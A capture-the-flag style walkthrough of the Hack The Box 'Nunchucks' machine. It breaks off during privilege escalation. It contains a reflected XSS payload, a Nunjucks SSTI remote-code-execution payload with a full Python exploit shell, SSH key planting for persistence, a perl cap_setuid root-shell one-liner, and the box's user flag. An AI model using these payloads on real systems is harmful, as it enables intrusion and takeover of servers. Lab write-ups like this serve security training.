





+++
title = "Nunchucks"
date = "2023-12-17"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2021-11-02

**Created by**: [TheCyberGeek](https://app.hackthebox.com/users/114053)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.9`, while the target machine's IP address will be `10.10.11.122`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Nunchucks using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.11.122 -p-
```

```
<SNIP>
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.11.122 -p 22,80,443 -sV
```

```
<SNIP>
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap`  managed to determine that Nunchucks is running Linux, and the SSH version discloses that it might be Ubuntu. That's good to know!

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.11.122 -p 22,80,443 -sC
```

```
<SNIP>
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  https
| tls-alpn: 
|_  http/1.1
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
<SNIP>
```

Okay, so `nmap`'s scans found that the Nginx server on port `80/tcp` is redirecting to `https://nunchucks.htb/`. The SSL certificate issuer is also set to the domain `nunchucks.htb`.

Let's add this domain to our hosts file.

```sh
❯ echo "10.10.11.122 nunchucks.htb" | tee -a /etc/hosts
```

Now we can explore the Nginx server!

## Nginx (port `80/tcp`)

Let's browse to `https://nunchucks.htb/`:


This looks like a website about `Nunchucks`, an ecommerce shop creation platform.

### HTTP headers

Before exploring it further, let's check the HTTP response headers when we request the homepage.

```sh
❯ curl -k https://nunchucks.htb/ -I
```

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 17 Dec 2023 10:05:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 30589
Connection: keep-alive
X-Powered-By: Express
set-cookie: _csrf=DAgnYEOZNmxU-2v9lc05px9_; Path=/
ETag: W/"777d-t5xzWgv1iuRI5aJo57wYpq8tm5A"
```

The `Server` header confirms what we already knew thanks to `nmap`'s default scripts. But the `X-Powered-By` header discloses that this website uses Express, a web framework for Node.js.

### Technology lookup

While we're at it, let's look up the technologies used by this website with the [Wappalyzer](https://www.wappalyzer.com/) extension.



So it confirms what we already discovered, but it also reveals that this website is using Bootstrap and libraries like jQuery.

### Exploration

The only web page that looks interesting is the 'Sign Up' one:


It contains a form that we can fill to register. But if we try to register with random values, the message 'We're sorry but registration is currently closed' appears.

There's also a web page for logging in, which looks really similar to the sign up page. Once again, if we fill it with random values, we get the same error message.

### Site crawling

Let's crawl the website to see if I missed something.

```sh
❯ katana -u https://nunchucks.htb/
```

```
<SNIP>
[INF] Started standard crawling for => https://nunchucks.htb/
https://nunchucks.htb/
https://nunchucks.htb/assets/js/scripts.js
https://nunchucks.htb/assets/js/body
https://nunchucks.htb/assets/js/jquery.easing.min.js
https://nunchucks.htb/assets/js/jquery.magnific-popup.js
https://nunchucks.htb/assets/js/bootstrap.min.js
https://nunchucks.htb/assets/css/swiper.css
mailto:support@nunchucks.htb
https://nunchucks.htb/assets/css/magnific-popup.css
https://nunchucks.htb/privacy
https://nunchucks.htb/signup
https://nunchucks.htb/terms
https://nunchucks.htb/assets/js/swiper.min.js
https://nunchucks.htb/assets/css/styles.css
https://nunchucks.htb/
https://nunchucks.htb/index.html
https://nunchucks.htb/assets/js/jquery.min.js
https://nunchucks.htb/assets/js/signup.js
https://nunchucks.htb/terms.html
https://nunchucks.htb/privacy.html
https://nunchucks.htb/assets/css/fontawesome-all.css
https://nunchucks.htb/login
https://nunchucks.htb/assets/css/bootstrap.css
```

The file `signup.js` might be related to the sign up form, let's retrieve its content.

```js
document.getElementById("form").addEventListener("submit", (e) => {
  e.preventDefault();
  fetch("/api/signup", {
    method: "POST",
    body: JSON.stringify({
      email: document.querySelector("input[type=email]").value,
      name: document.querySelector("input[type=text]").value,
      password: document.querySelector("input[type=password]").value,
    }),
    headers: { "Content-Type": "application/json" },
  })
    .then((resp) => {
      return resp.json();
    })
    .then((data) => {
      document.getElementById("output").innerHTML = data.response;
    });
});
```

It just sends a POST request to `/api/signup` upon submiting the request.

There's also a `scripts.js` file that could be interesting, but it only contains functions to manage the UI.

### Directory fuzzing

Let's see if we can find unliked web pages and directories.

```sh
❯ ffuf -v -c -u https://nunchucks.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```
<SNIP>
[Status: 200, Size: 45, Words: 4, Lines: 4, Duration: 33ms]
| URL | https://nunchucks.htb/spacer
    * FUZZ: spacer

[Status: 200, Size: 45, Words: 4, Lines: 4, Duration: 32ms]
| URL | https://nunchucks.htb/12
    * FUZZ: 12

[Status: 200, Size: 45, Words: 4, Lines: 4, Duration: 34ms]
| URL | https://nunchucks.htb/news
    * FUZZ: news

[Status: 200, Size: 45, Words: 4, Lines: 4, Duration: 34ms]
| URL | https://nunchucks.htb/warez
    * FUZZ: warez

[Status: 200, Size: 45, Words: 4, Lines: 4, Duration: 32ms]
| URL | https://nunchucks.htb/download
    * FUZZ: download
<SNIP>
```

Okay, so there's actually a default web page that gets displayed when the specify an invalid one. Let's browse to `https://nunchucks.htb/nonExistent` to see it:


This is a really barebone web page.

Let's fuzz again, but this time we'll ignore the responses with the length of the default `404` web page.

```sh
❯ ffuf -v -c -u https://nunchucks.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 45
```

```
<SNIP>
[Status: 200, Size: 19134, Words: 5929, Lines: 251, Duration: 63ms]
| URL | https://nunchucks.htb/privacy
    * FUZZ: privacy

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 24ms]
| URL | https://nunchucks.htb/login
    * FUZZ: login

[Status: 200, Size: 17753, Words: 5558, Lines: 246, Duration: 31ms]
| URL | https://nunchucks.htb/terms
    * FUZZ: terms

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 25ms]
| URL | https://nunchucks.htb/signup
    * FUZZ: signup

[Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 25ms]
| URL | https://nunchucks.htb/assets
| --> | /assets/
    * FUZZ: assets

[Status: 200, Size: 19134, Words: 5929, Lines: 251, Duration: 27ms]
| URL | https://nunchucks.htb/Privacy
    * FUZZ: Privacy

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 24ms]
| URL | https://nunchucks.htb/Login
    * FUZZ: Login

[Status: 200, Size: 17753, Words: 5558, Lines: 246, Duration: 25ms]
| URL | https://nunchucks.htb/Terms
    * FUZZ: Terms

[Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 24ms]
| URL | https://nunchucks.htb/Assets
| --> | /Assets/
    * FUZZ: Assets

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 24ms]
| URL | https://nunchucks.htb/Signup
    * FUZZ: Signup

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 25ms]
| URL | https://nunchucks.htb/SignUp
    * FUZZ: SignUp

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 24ms]
| URL | https://nunchucks.htb/signUp
    * FUZZ: signUp

[Status: 200, Size: 19134, Words: 5929, Lines: 251, Duration: 32ms]
| URL | https://nunchucks.htb/PRIVACY
    * FUZZ: PRIVACY

[Status: 200, Size: 30589, Words: 12757, Lines: 547, Duration: 31ms]
| URL | https://nunchucks.htb/
    * FUZZ: 

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 23ms]
| URL | https://nunchucks.htb/LogIn
    * FUZZ: LogIn

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 25ms]
| URL | https://nunchucks.htb/LOGIN
    * FUZZ: LOGIN
<SNIP>
```

Nothing interesting here.

### Subdomain fuzzing

Let's try to fuzz for subdomains now.

First, let's get the length of an invalid one.

```sh
❯ curl -k -s https://nunchucks.htb/ -H "Host: nonExitent.nunchucks.htb" | wc -c
```

```
30589
```

Let's filter the subdomains with length `30589` then:

```sh
❯ ffuf -v -c -u https://nunchucks.htb/ -H "Host: FUZZ.nunchucks.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -maxtime 60 -fs 30589
```

```
<SNIP>
[Status: 200, Size: 4029, Words: 1053, Lines: 102, Duration: 86ms]
| URL | https://nunchucks.htb/
    * FUZZ: store
<SNIP>
```

It found one valid subdomain: `store`!

### `shop.nunchucks.htb` subdomain

Let's add it to `/etc/hosts`.

```sh
❯ echo "10.10.11.122 store.nunchucks.htb" | tee -a /etc/hosts
```

Now let's browse to `https://store.nunchucks.htb/`:



This is a website to promote the Nunchucks store. The heading indicates that it's not open yet, and we have the possiblity of entering an email in a form to subscribe to a newsletter to get notified when it opens.

This is literally the only functionality of this website... so it must be vulnerable to something!

Let's enter `foo@email.htb` and press the 'Notify Me' button.


Okay, so our input is rendered in the response... that's interesting!

### Under the hood

Let's look at the request we sent using [Caido](https://caido.io/).



In fact, upon filling the form with an email, a POST request is sent to `/api/submit` with the JSON data:

```json
{
    "email": "foo@email.htb"
}
```

The response also contains JSON data:

```json
{
    "response": "You will receive updates on the following email address: foo@email.htb."
}
```

If we search the source code of the website, we find a `main.js` file at `/js/`:

```js
document.getElementById("form").addEventListener("submit", (e) => {
  e.preventDefault();
  fetch("/api/submit", {
    method: "POST",
    body: JSON.stringify({
      email: document.querySelector("input[type=email]").value,
    }),
    headers: { "Content-Type": "application/json" },
  })
    .then((resp) => {
      return resp.json();
    })
    .then((data) => {
      document.getElementById("output").innerHTML = data.response;
    });
});
```

So this JavsScript file is responsible for sending the content of the form upon submittion. It reads the response, and changes the inner HTML of the element whose id is `output` to the response data.

The `innerHTML` is a dangerous function, so we might be able to alter the HTML of the element whose id is `output`!

### XSS

Since the form field is supposed to be an email, our browser prevents us from entering what we want. We can easily bypass this frontend verification using [Caido](https://caido.io/).

I'll replay the last request we sent, and directly modify the `email` JSON parameter value. Let's set it to `<script>alert(\"XSS\")</script>` (I escaped the double quotes to prevent errors) and look at the response.



It looks like it worked! There's no kind of validation in place, so our input is rendered and reflected in the response. We have a reflected XSS here! But it's really useless, it would only be impactful if someone entered himself the XSS payload, or if we used HTTP request smuggling... Anyways, we won't get a foothold this way.

### SSTI

Since our input is rendered and reflected in the response, maybe it's vulnerable to SSTI. Let's check for it by entering the following payloads:

```
{{7*7}}, ${7*7}, <%= 7*7 %>, ${{7*7}}, #{7*7}, *{7*7}
```



Alright, so the first payload we entered has been computed to `49`! The fourth too, but there's a leading `$` before it, so the first one is what has been computed really.

This means that we can execute code on the server side!

# Foothold (SSTI)

We know that Nunchucks is using the Express framework, but we don't know which template engine it's using.

If we search online for it, we see that Express actually supports [a lot of them](https://expressjs.com/en/resources/template-engines.html)!

Fortunately, one of them is named `Nunjucks`... considering it's also the name of the box, it's safe to assume that this is the template engine used by the web server!

## Getting RCE

If we search online for SSTI payloads affecting the Nunjucks template engine, we find one on [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks). We should be able to execute a command with this payload:

```js
{{range.constructor("return global.process.mainModule.require('child_process').execSync('<COMMAND>')")()}}
```

Okay, so we know how to execute commands on the target server.

## Script

It's really not practical to abuse this RCE using Caido, so I'll use this Python script:

```py
import requests
from cmd import Cmd
import warnings

# Disable SSL/TLS warnings related to insecure requests
requests.packages.urllib3.disable_warnings(
    requests.packages.urllib3.exceptions.InsecureRequestWarning
)


# Define a custom command-line interpreter class
class MyCmd(Cmd):
    # Set the prompt for the command-line interface
    prompt = "> "

    # Define the default behavior for handling input
    def default(self, line):
        # Define the target URL
        url = "https://store.nunchucks.htb/api/submit"

        # Create a dictionary containing the payload for command injection
        data = {
            "email": "{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('"
            + line
            + "')\")()}}"
        }

        try:
            # Send a POST request with the payload to the target URL, disabling SSL/TLS verification
            response = requests.post(url, data=data, verify=False)
            json_response = response.json()
            response_text = json_response.get("response", "")

            # Find the index of the "address:" string in the response, which is just before the payload result
            address_index = response_text.find("address:")

            if address_index != -1:
                # Extract and print our payload result from the response
                address_text = response_text[address_index + len("address:") :].strip()
                address_text = address_text.rstrip(".").rstrip("\n")
                # Check if our payload returned something
                if address_text != "":
                    print(address_text)

        except Exception as e:
            # Ignore any exceptions that may occur during the request or response handling
            pass

    # Define behavior for an empty line (do nothing)
    def emptyline(self):
        pass

    # Define behavior for the 'exit' command
    def do_exit(self):
        # Return True to exit the command loop
        return True


# Entry point of the script
if __name__ == "__main__":
    # Create an instance of the custom command-line interpreter and start the command loop
    MyCmd().cmdloop()
```

I'll save it as `ssti.py`.

Now it should be much more easier to exploit the RCE!

## SSH (port `22/tcp`)

We noticed in the initial [TCP port scanning](#tcp-port-scanning) that Nunchucks was accepting connections over SSH, so it would be interesting to use this to get a real shell.

Let's run `whoami` to see who we are:

```sh
> whoami
```

```
david
```

Luckily, if we check `/home`, we see that `david` has a home folder.

The goal is now to add our own SSH key to `/home/david/.ssh/authorized_keys` so that we can connect to Nunchucks using SSH.

However, `david` doesn't have a `.ssh` folder, so let's remediate to that:

```sh
> mkdir /home/david/.ssh
```

Then, I'll generate a SSH ed25519 key.

```sh
❯ ssh-keygen -t ed25519
```

```
Generating public/private ed25519 key pair.
<SNIP>
Your identification has been saved in /workspace/id_ed25519
Your public key has been saved in /workspace/id_ed25519.pub
<SNIP>
```

Now, let's add the public key to Nunchucks by executing this command through the Python script (replace the public key with your own):

```sh
> echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHaUBQzVpdSZy4we5Ja3x7eteMCiqfelHJPqKyK+Nc8r >> /home/david/.ssh/authorized_keys
```

Finally, let's use our private key to connect as `david` using SSH:

```sh
❯ ssh david@10.10.11.122 -i id_ed25519
```

```
The authenticity of host '10.10.11.122 (10.10.11.122)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.122' (ED25519) to the list of known hosts.

<SNIP>
david@nunchucks:~$
```

We got a shell. Nice!

# Local enumeration

We already know that we got a foothold as `david`.

## Distribution

Let's see which distribution Nunchucks is using.

```sh
david@nunchucks:~$ lsb_release -a
```

```
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.3 LTS
Release:        20.04
Codename:       focal
```

So this is Ubuntu 20.04.3, okay. That's pretty recent, so we're unlikely to find vulnerabilities here.

## Architecture

What is Nunchucks's architecture?

```
david@nunchucks:~$ uname -m
```

```
x86_64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Kernel

Maybe Nunchucks is vulnerable to a kernel exploit?

```sh
david@nunchucks:~$ uname -r
```

```
5.4.0-86-generic
```

Unfortunately, the kernel version is recent too.

Yeah I know, very surprising.

## AppArmor

Let's list the applications AppArmor profiles:

```sh
david@nunchucks:~$ ls -lap /etc/apparmor.d/ | grep -v '/'
```

```
total 72
-rw-r--r--   1 root root  1313 May 19  2020 lsb_release
-rw-r--r--   1 root root  1108 May 19  2020 nvidia_modprobe
-rw-r--r--   1 root root  3222 Mar 11  2020 sbin.dhclient
-rw-r--r--   1 root root  3202 Feb 25  2020 usr.bin.man
-rw-r--r--   1 root root   442 Sep 26  2021 usr.bin.perl
-rw-r--r--   1 root root   672 Feb 19  2020 usr.sbin.ippusbxd
-rw-r--r--   1 root root  2006 Jul 22  2021 usr.sbin.mysqld
-rw-r--r--   1 root root  1575 Feb 11  2020 usr.sbin.rsyslogd
-rw-r--r--   1 root root  1385 Dec  7  2019 usr.sbin.tcpdump
```

All of these profiles are classic, except the one for `perl`.

## NICs

Let's gather the list of connected NICs.

```sh
david@nunchucks:~$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:81:df brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.122/23 brd 10.10.11.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:81df/64 scope global dynamic mngtmpaddr 
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb9:81df/64 scope link 
       valid_lft forever preferred_lft forever
```

So there's only the loopback interface and the Ethernet interface.

## Hostname

What is Nunchucks's hostname?

```sh
david@nunchucks:~$ hostname
```

```
nunchucks
```

## Local users

Let's enumerate all the local users that have a console.

```sh
david@nunchucks:~$ cat /etc/passwd | grep "sh$" | cut -d: -f1
```

```
root
david
```

Okay, so there's only `david` (us) and `root`.

Let's retrieve the list of all local groups.

```sh
david@nunchucks:~$ getent group | cut -d: -f1 | sort
```

```
adm
audio
avahi
backup
bin
bluetooth
cdrom
colord
crontab
daemon
david
dialout
dip
disk
fax
floppy
games
geoclue
gnats
input
irc
kmem
kvm
landscape
list
lp
lpadmin
lxd
mail
man
messagebus
mysql
netdev
news
nogroup
operator
plugdev
proxy
pulse
pulse-access
render
root
rtkit
saned
sasl
scanner
shadow
src
ssh
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

## User account information

Let's see to which groups we currently belong

```sh
david@nunchucks:~$ groups
```

```
david
```

Unfortunately we don't belong to the `lxd` group, but only to the default group for our user.

## Home folder

We aleady began the exploration of our home folder earlier, and we noticed the user flag file. Let's retrieve its content.

```sh
david@nunchucks:~$ cat ~/user.txt
```

```
236309c71f2a053dd6585eb31bc315ce
```

## Command history

We can try to check the history of the commands our user ran, but it's discarded into `/dev/null`.

## Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
david@nunchucks:~$ sudo -l
```

```
[sudo] password for david:
```

We're asked for `david`'s password, but we don't know it.

## Environment variables

Let's check the environment variables for our shell. Maybe we'll find something out of the ordinary?

```sh
david@nunchucks:~$ env
```

```
SHELL=/bin/bash
PWD=/home/david
LOGNAME=david
XDG_SESSION_TYPE=tty
MOTD_SHOWN=pam
HOME=/home/david
LANG=en_GB.UTF-8
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
SSH_CONNECTION=10.10.14.9 58418 10.10.11.122 22
LESSCLOSE=/usr/bin/lesspipe %s %s
XDG_SESSION_CLASS=user
TERM=xterm-256color
LESSOPEN=| /usr/bin/lesspipe %s
USER=david
SHLVL=1
XDG_SESSION_ID=1
XDG_RUNTIME_DIR=/run/user/1000
SSH_CLIENT=10.10.14.9 58418 22
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus
SSH_TTY=/dev/pts/0
_=/usr/bin/env
```

I don't see anything out of the ordinary.

## Listening ports

Let's see if any TCP local ports are listening for connections.

```sh
david@nunchucks:~$ ss -tln
```

```
State                       Recv-Q                      Send-Q                                           Local Address:Port                                             Peer Address:Port                      Process                      
LISTEN                      0                           511                                                    0.0.0.0:443                                                   0.0.0.0:*                                                      
LISTEN                      0                           511                                                  127.0.0.1:8000                                                  0.0.0.0:*                                                      
LISTEN                      0                           511                                                  127.0.0.1:8001                                                  0.0.0.0:*                                                      
LISTEN                      0                           70                                                   127.0.0.1:33060                                                 0.0.0.0:*                                                      
LISTEN                      0                           151                                                  127.0.0.1:3306                                                  0.0.0.0:*                                                      
LISTEN                      0                           511                                                    0.0.0.0:80                                                    0.0.0.0:*                                                      
LISTEN                      0                           4096                                             127.0.0.53%lo:53                                                    0.0.0.0:*                                                      
LISTEN                      0                           128                                                    0.0.0.0:22                                                    0.0.0.0:*                                                      
LISTEN                      0                           128                                                       [::]:22                                                       [::]:*
```

There's a few ports listening locally, including `3306/tcp` corresponding to MySQL.

Let's check UDP open ports too.

```sh
david@nunchucks:~$ ss -uln
```

```
State                       Recv-Q                      Send-Q                                           Local Address:Port                                             Peer Address:Port                      Process                      
UNCONN                      0                           0                                                127.0.0.53%lo:53                                                    0.0.0.0:*                                                      
UNCONN                      0                           0                                                      0.0.0.0:5353                                                  0.0.0.0:*                                                      
UNCONN                      0                           0                                                      0.0.0.0:58196                                                 0.0.0.0:*                                                      
UNCONN                      0                           0                                                         [::]:5353                                                     [::]:*                                                      
UNCONN                      0                           0                                                         [::]:43351                                                    [::]:*
```

There's nothing special.

## MySQL (port `3306/tcp`)

We noticed that the port `3306/tcp` was open, which probably means that a MySQL instance is running on Nunchucks. Let's explore it!

```sh
david@nunchucks:~$ mysql
```

```
ERROR 1045 (28000): Access denied for user 'david'@'localhost' (using password: NO)
```

We can't access it without a password. We can try common credentials, but it doesn't work.

## Processes

Let's use `pspy` to see which processes are running on Nunchucks.

```sh
david@nunchucks:~$ /tmp/pspy
```

```
<SNIP>
```

I don't see any cronjob.

## SUID binaries

Let's look for SUID binaries.

```sh
david@nunchucks:~$ find / -perm -4000 2>/dev/null
```

```
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/at
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
```

Unfortunately, there's nothing that we can abuse to escalate our privileges.

## Capabilities

Let's see which files have special capabilities.

```sh
david@nunchucks:~$ find / -type f -exec getcap {} \; 2>/dev/null
```

```
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Most of these files and capabilities are expected, except for `/usr/bin/perl`. It has the `cap_setuid` capability set to `ep`, which means that it has the ability to set its effective user ID, and it's allowed to do so during its execution!

This must be our way to get `root`. It's probably used to execute Perl scripts, so let's search for one:

```sh
david@nunchucks:~$ find /opt -type f -name "*.pl" 2>/dev/null
```

```
<SNIP>
/opt/backup.pl
```

Bingo! It finds lots of them, and one is located in `/opt`.

## Exploring `/opt`

If we list the content of the `/opt` folder, we find unusual files owned by `root`:

```sh
david@nunchucks:~$ ls -la /opt
```

```
<SNIP>
drwxr-xr-x  3 root root 4096 Oct 28  2021 .
drwxr-xr-x 19 root root 4096 Oct 28  2021 ..
-rwxr-xr-x  1 root root  838 Sep  1  2021 backup.pl
drwxr-xr-x  2 root root 4096 Oct 28  2021 web_backups
```

The `web_backups` folder contains `.tar` files, probably backups of the web server.

The `backup.pl` is a Perl script, it must have generated the `.tar` files! It looks like this:

```pl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

As expected, this script is used to create backups for the web server. It creates a backup folder in `/tmp/`, creates a `.tar` file with the name set to the current time in this folder, moves it into `/opt/web_backups/`, and deletes the temporary backup folder.

The thing is that only `root` is allowed to write into `/opt/web_backups/`, so this script is using `POSIX::setuid(0);` to execute as `root`.

To do this, it must either be SUID or have a capability. We discovered earlier that `/usr/bin/perl` has capabilities to change its ID, so we should be able to use it to get a shell as `root`!

We can use [GTFOBins](https://gtfobins.github.io/) for that. It has one entry for [perl](https://gtfobins.github.io/gtfobins/perl/), and it even gives a payload to abuse [Capabilities](https://gtfobins.github.io/gtfobins/perl/#capabilities)! Let's try it.

```sh
david@nunchucks:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

And... it doesn't work.

If we think about it, we found an AppArmor profile for this binary in the [AppArmor](#apparmor) section. Let's get its content.

```sh
david@nunchucks:~$ cat /etc/apparmor.d/usr.bin.perl
